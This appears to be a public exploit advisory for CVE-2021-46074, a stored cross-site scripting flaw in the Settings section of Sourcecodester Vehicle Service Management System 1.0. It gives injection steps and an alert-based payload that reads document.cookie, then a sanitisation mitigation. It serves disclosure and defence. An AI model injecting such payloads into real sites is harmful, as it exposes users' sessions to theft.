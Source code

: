 # CVE-2021-46074

### Exploit Title: Vehicle Service Management System - 'Settings' Stored Cross Site Scripting (XSS)
### Exploit Author: <a href="https://www.plsanu.com">P.L.Sanu</a>
### CVE: CVE-2021-46074
### CVSS: 4.8 MEDIUM
### References: 
- https://www.plsanu.com/vehicle-service-management-system-settings-stored-cross-site-scripting-xss
- https://nvd.nist.gov/vuln/detail/CVE-2021-46074
- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-46074

### Description:
A Stored Cross Site Scripting (XSS) vulnerability exists in Sourcecodester Vehicle Service Management System 1.0 via the Settings Section in login panel.

### Exploit:
1. Login to the admin panel http://localhost/vehicle_service/admin
2. Navigate to Settings section http://localhost/vehicle_service/admin/?page=system_info
3. Inject the below payload in System Name, System Short Name & About Us input field.

### Payload:
```html
 "><script>alert(document.cookie)</script>
```

4. Click on update button.
5. Malicious javascript code triggered.

### Impact:
An attacker can able to inject malicious JavaScript code in Settings Section.

### Mitigation:
It is recommended to sanitize all the input fields throughout the application.
